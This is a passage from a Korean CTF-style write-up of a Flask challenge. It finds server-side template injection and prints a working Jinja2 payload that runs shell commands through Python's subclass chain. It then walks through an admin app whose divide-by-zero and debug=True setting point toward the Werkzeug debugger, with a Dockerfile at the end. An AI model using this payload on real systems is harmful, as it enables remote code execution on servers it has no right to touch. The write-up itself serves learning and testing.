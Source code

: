 
현재 `main.py`를 통해서 얻을 수 있는 정보는 5000번의 포트를 사용하고 **admin page**는 `8000`번의 포트를 사용하고 있다는 것이다.

또한 `/` 경로로부터 입력 받은 내용에 대해서 `render_template_string` 템플릿을 형성하고 있는 것을 알 수 있다.

이는 **SSTI** 취약점이 발생하기에 `{{7*7}}`를 입력하여 적용되는지 확인해본다.

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/18ea4dcd-7f3c-4aea-8f6e-5df0fb483da6" width = 850>
</p>

입력한 내용에 대해서 서버측에서 실행되어 적용되는 템플릿이 나오는 것을 알 수 있다. 이후 RCE를 진행할 수 있는 코드를 작성하여 삽입하면 아래와 같이 현재 서버측에서 코드를 실행하여 나온 결과를 출력할 수 있다.

```
{{ ''.__class__.__mro__[1].__subclasses__()[398]('ls',shell=True,stdout=-1).communicate() }}
```

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/7ab54378-681e-45e2-bf85-65a0f1acd90c" width = 850>
</p>

### Admin 

```python
#!/usr/bin/python3
from flask import Flask
import hashlib

app = Flask(__name__)


@app.route('/')
def index():
    return "ADMIN PAGE!"

@app.route('/keygen/<path:string>')
def keygen(string):
    n = len(string)-1
    a = hashlib.md5(string.encode('utf-8'))
    res = len(string), str(hex(int(int(a.hexdigest(),16)/n)))

    return f"{res}"

if __name__ == '__main__':
    app.run(debug=True,host='0.0.0.0', port=8000)
```

관리자 페이지를 확인해보면 `8000`의 포트 번호를 사용하고 있는 것을 알 수 있다. 또한 `keygen` 함수를 확인해보면 입력 받은 값을 통해서 `res`를 연산하게 되는데 입력 값이 **1**인 경우 0으로 나누기에 `ZeroDivionError`가 발생할 것을 예상할 수 있다.

또한, 현재 `debug=True`를 설정하였기에 이 에러를 발생시키게 된다면 Debug 모드로 넘어갈 것을 예상할 수 있다.

그렇다면 현재 URL을 통해서 Debug로 연결하기 위해서는 어떤 방법이 있을지 확인해본다.

```Dockerfile
# FROM ubuntu:20.04
FROM python:3.8

# RUN apt update && apt install -y python3.8
# RUN apt install python3-pip -y
RUN apt install curl -y
RUN pip3 install flask

WORKDIR /var/www/
COPY main ./main/
COPY admin ./admin/
RUN chmod 755 /var/www/
```